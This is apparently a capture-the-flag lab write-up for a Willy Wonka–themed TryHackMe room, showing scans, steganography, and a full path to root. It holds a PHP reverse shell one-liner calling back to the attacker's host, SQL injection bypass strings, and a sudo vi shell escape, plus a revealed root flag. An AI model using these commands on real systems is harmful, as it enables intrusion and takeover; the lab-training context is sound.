


# Chocolate Factory
A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!


Always start with a nmap scan. 
```
# Nmap 7.91 scan initiated Tue Jun  8 13:13:29 2021 as: nmap -sC -sV -d -A -oN nmap/output 10.10.204.243
--------------- Timing report ---------------
  hostgroups: min 1, max 100000
  rtt-timeouts: init 1000, min 100, max 10000
  max-scan-delay: TCP 1000, UDP 1000, SCTP 1000
  parallelism: min 0, max 0
  max-retries: 10, host-timeout: 0
  min-rate: 0, max-rate: 0
---------------------------------------------
Nmap scan report for 10.10.204.243
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-06-08 13:13:29 +0530 for 380s
Not shown: 989 closed ports
Reason: 989 conn-refused
PORT    STATE SERVICE    REASON  VERSION
21/tcp  open  ftp        syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
22/tcp  open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http       syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
100/tcp open  newacct?   syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, HTTPOptions, Kerberos, LDAPBindReq, NULL, RTSPRequest, SSLSessionReq: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
106/tcp open  pop3pw?    syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, Help, LDAPBindReq, LPDString, NULL, SSLSessionReq: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
109/tcp open  pop2?      syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, HTTPOptions, LANDesk-RC, NULL, RTSPRequest, SSLSessionReq, TerminalServer, TerminalServerCookie: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
110/tcp open  pop3?      syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, LDAPSearchReq, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
111/tcp open  rpcbind?   syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, Help, RTSPRequest, TerminalServerCookie, WMSRequest, X11Probe, afp, oracle-tns: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
| rpcinfo: 
|_  ERROR: Portmap.Dump: Failed to read data from socket
113/tcp open  ident?     syn-ack
| fingerprint-strings: 
|   GetRequest, HTTPOptions, Help, RPCCheck, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie, afp: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
119/tcp open  nntp?      syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP, Help, JavaRMI, LANDesk-RC, NotesRPC, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
125/tcp open  locus-map? syn-ack
| fingerprint-strings: 
|   GenericLines, GetRequest, Help, LPDString, NULL, SMBProgNeg, TLSSessionReq, TerminalServerCookie, ms-sql-s: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
# Nmap done at Tue Jun  8 13:19:49 2021 -- 1 IP address (1 host up) scanned in 379.69 seconds
```
So what do we have here?

* Port 21: FTP which allowing anonymous login and the file „gum_room.jpg“ because nmap was executing the anonymous login for us
* Port 22: SSH
* Port 80: Apache Webserver
* Port 100, 106, 109, 110, 111, 113, 119, 125 (all with the same service)

## Enter the key you found!
Let's check that webpage we found in our nmap scan. 



After trying some default credentials like "admin/admin", "admin/password", and more I tried bypassing the login with SQL Injection using 'or 1=1 -- and ' or '1'='1‚ #

But It's not working. After that I use dirb. Dirb give something really interesting.
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: nmap/dirb-output
START_TIME: Tue Jun  8 13:57:16 2021
URL_BASE: http://10.10.204.243/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive
EXTENSIONS_LIST: (,.php,.html,.txt) | ()(.php)(.html)(.txt) [NUM = 4]

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.204.243/ ----
+ http://10.10.204.243/home.php (CODE:200|SIZE:569)
+ http://10.10.204.243/index.html (CODE:200|SIZE:1466)
+ http://10.10.204.243/validate.php (CODE:200|SIZE:93)
+ http://10.10.204.243/server-status (CODE:403|SIZE:278)

-----------------
END_TIME: Tue Jun  8 16:00:13 2021
DOWNLOADED: 20189 - FOUND: 4
```
What is that **home.php** .Let's hope into that.


We can execute the rev shell here. This was my rev shell :
```bash
php -r '$sock=fsockopen("10.9.2.53",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
┌─[visith@parrot]─[~/CTF/thm/chocolate-factory]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.204.243] 52616
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

www-data@chocolate-factory:/var/www/html$ ls -la
ls -la
total 1152
drwxr-xr-x 2 root    root       4096 Oct  6  2020 .
drwxr-xr-x 3 root    root       4096 Sep 29  2020 ..
-rw------- 1 root    root      12288 Oct  1  2020 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30  2020 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30  2020 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30  2020 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
```
let's look that key_rev_key file.
```bash
www-data@chocolate-factory:/var/www/html$ file key_rev_key
file key_rev_key
key_rev_key: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
www-data@chocolate-factory:/var/www/html$ strings key_rev_key
strings key_rev_key
/lib64/ld-linux-x86-64.so.2
libc.so.6
laksdhfas
 congratulations you have found the key:   
*************************
 Keep its safe
Bad name!
```
After that we got the key. But I'm curious about that **FTP** server.

## What is Charlie's password?
Let's take look into that **gum_room.jpg** on FTP server

```bash
┌─[visith@parrot]─[~/CTF/thm/chocolate-factory]
└──╼ $ftp 10.10.93.22
Connected to 10.10.93.22.
220 (vsFTPd 3.0.3)
Name (10.10.93.22:visith): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.
ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
226 Transfer complete.
208838 bytes received in 0.74 secs (276.5221 kB/s)
ftp> exit
```
Let's look into that Image .


I tried to look anything hide on that picture.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/chocolate-factory]
└──╼ $steghide info gum_room.jpg 
"gum_room.jpg":
  format: jpeg
  capacity: 10.9 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "b64.txt":
    size: 2.5 KB
    encrypted: rijndael-128, cbc
    compressed: yes
┌─[visith@parrot]─[~/CTF/thm/chocolate-factory]
└──╼ $steghide --extract -sf gum_room.jpg 
Enter passphrase: 
wrote extracted data to "b64.txt".
```
After we decode the **b64.txt** . We can see the charlie's passwd hash. You can simply crack with hashcat. 

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/chocolate-factory]
└──╼ $cat b64.txt | base64 -d
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```
I didn't crack this.It takes a lots of time to crack the hash.
But I find a fast way to get that.

```bash
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
```
In the **validate.php** we can found the charlies password.
```bash
www-data@chocolate-factory:/var/www/html$ cat validate.php
cat validate.php
<?php
    $uname=$_POST['uname'];
    $password=$_POST['password'];
    if($uname=="charlie" && $password=="*******"){
        echo "<script>window.location='home.php'</script>";
    }
    else{
        echo "<script>alert('Incorrect Credentials');</script>";
        echo "<script>window.location='index.html'</script>";
    }
?>www-data@chocolate-factory:/var/www/html$ 
``` 
## change user to charlie
Let's take a look into the charlie's home directory  in case we can found our user flag in there.

We got a user.txt but we cant read it. Talking about good side we got private key called **teleport** . Let's change our user with this ssh key.

## Enter the user flag
After we give the permission to our key . We can go to the charlie user.
```bash
┌─[visith@parrot]─[~/CTF/thm/chocolate-factory]
└──╼ $ssh charlie@10.10.204.243 -i teleport
The authenticity of host '10.10.204.243 (10.10.204.243)' can't be established.
ECDSA key fingerprint is SHA256:gd9u+ZN0RoEwz95lGsM97tRG/YPtIg9MwOxswHac8yM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.204.243' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)
charlie@chocolate-factory:/$ ls
bin    dev   initrd.img      lib64   mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib         media   proc  sbin  swap.img  usr  vmlinuz.old
charlie@chocolate-factory:/$ cd /home
charlie@chocolate-factory:/home$ ls
charlie
charlie@chocolate-factory:/home$ cd charlie
charlie@chocolate-factory:/home/charlie$ ls
teleport  teleport.pub  user.txt
charlie@chocolate-factory:/home/charlie$ cat user.txt 
flag{******************************}
```
## Enter the root flag

After I run linpeas, I usually run **sudo -l** to make process fast. 
```bash
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
vi is allowed to run as superuser by sudo. If we take a look into GTFObins. (https://gtfobins.github.io/gtfobins/vi/#sudo)


```bash
charlie@chocolate-factory:/$ sudo vi -c ':!/bin/sh'

# /usr/bin/script -qc /bin/bash /dev/null
root@chocolate-factory:/root# 
```
We got into the root let's get the flag. But where is the flag. If you look into that root directory and you can see root.py.
```python
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```
This require key must be that key on our first task. Let's run it and take a root flag.
```bash
root@chocolate-factory:/root# python root.py
Enter the key:  b'``****************************************``'
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag{cec59161d338fef787fcb4e296b42124}
root@chocolate-factory:/root#

```

Thx for reading !!


